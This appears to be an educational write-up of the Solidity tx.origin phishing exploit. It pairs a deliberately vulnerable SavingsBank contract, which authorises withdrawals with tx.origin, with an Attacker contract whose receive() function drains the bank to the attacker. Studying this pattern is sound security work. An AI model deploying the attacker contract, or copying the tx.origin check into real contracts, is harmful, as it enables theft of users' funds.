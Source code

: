 <h2>tx.origin Phishing Exploit</h2>
<div>
<p>
In this exploit, the attacker abuses tx.origin. What tx.origin does is it stores the address of the original sender, while msg.sender stores the address of the caller of the function. 
So if EOA calls his contract A and then from contract A it calls contact B, then tx.origin is the EOA but msg.sender is contract A.
</p>
<p>
Now what the attacker does is he sets up a receive function that then calls the contact B withdraw all function. And what ends up happening is that it passes the check that tx.origin is owner of the funds in contact B and sends the funds to the attacker specified in the parameter _recipient as shown in code below.
</p>
<p>
What needs to happen for the attacker is that his victim has to send some funds to his Contract A AND also has to have some funds in Contact B. So there is a lot that has to go in his way, it's not like other exploits where he just does everything in few minutes, calls a bunch of function and he is done. No he has to passively wait for someone to get trapped by sending funds to his Attacker Contract.
</p>
<p>
I understand that this might work for some non techincal people and especially for the advertisements and fake "I'll double your coins" schemes but in reality, having a bit of know how and you really need to have know how if you're in crypto then it shouldn't really cause a threat in my opinion. At this points it's the stupidity of the victim for falling for such a scam I would say than anything else.

Contract B
<pre><code>contract SavingsBank {
    address public owner;
    constructor(){
        owner = msg.sender;
    }
    function deposit() public payable {
       // to receive ether.
    }
   
    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        (bool sent,) = _recipient.call{value:address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
</code></pre>

Contract A - Attacker

<pre><code>import "./savingsBank.sol";
contract Attacker {
    SavingsBank public savingsbank;
    address attacker;
    constructor(address _savingsBankAddress, address _attackerAddress) {
    savingsbank = SavingsBank(_savingsBankAddress);
    attacker = _attackerAddress;
    }
    receive() external payable{
        savingsbank.withdrawAll(attacker);
    }
    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    } 
}
</code></pre>

</p>
</div>